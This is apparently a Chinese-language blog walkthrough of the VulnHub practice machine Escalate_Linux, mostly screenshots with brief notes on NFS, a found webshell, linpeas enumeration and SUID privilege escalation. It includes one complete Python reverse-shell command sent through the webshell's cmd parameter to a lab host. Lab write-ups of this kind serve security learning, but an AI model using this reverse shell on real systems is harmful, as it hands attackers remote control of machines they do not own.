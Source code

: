 ```yaml
---
layout: post
title:  "vulnhub >_ Escalate_Linux"
description: walkthrough
category: vulnhub
---
```

# Escalate_Linux



![image-20200613234426607]({{ site.url }}/assets/Escalate_Linux.assets/image-20200613234426607.png)

先测试nfs

![image-20200613234734752]({{ site.url }}/assets/Escalate_Linux.assets/image-20200613234734752.png)

尝试利用ssh。但是权限不足。

![image-20200614041443338]({{ site.url }}/assets/Escalate_Linux.assets/image-20200614041443338.png)

新建用户user5 ，uid 1004

![image-20200614041718459]({{ site.url }}/assets/Escalate_Linux.assets/image-20200614041718459.png)

查看了一下，没什么有用的信息，但是user5有个拥有suid的程序`script`



往下进行80端口扫目录

扫到一个shell.php

![image-20200614065812149]({{ site.url }}/assets/Escalate_Linux.assets/image-20200614065812149.png)

![image-20200614065839626]({{ site.url }}/assets/Escalate_Linux.assets/image-20200614065839626.png)

看样子是个webshell

直接nc不好用，看看python

![image-20200614065938190]({{ site.url }}/assets/Escalate_Linux.assets/image-20200614065938190.png)

```bash
192.168.1.117/shell.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.108",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

![image-20200614070056746]({{ site.url }}/assets/Escalate_Linux.assets/image-20200614070056746.png)

上传linpeas进行枚举

![image-20200614073421926]({{ site.url }}/assets/Escalate_Linux.assets/image-20200614073421926.png)



![image-20200614081718345]({{ site.url }}/assets/Escalate_Linux.assets/image-20200614081718345.png)

可以进mysql，发现所有u用户的凭证，也有很多其他提权方式，都是基础简单的，不再累诉，

SUID之一，home/user/shell

直接提权

![image-20200614082440754]({{ site.url }}/assets/Escalate_Linux.assets/image-20200614082440754.png)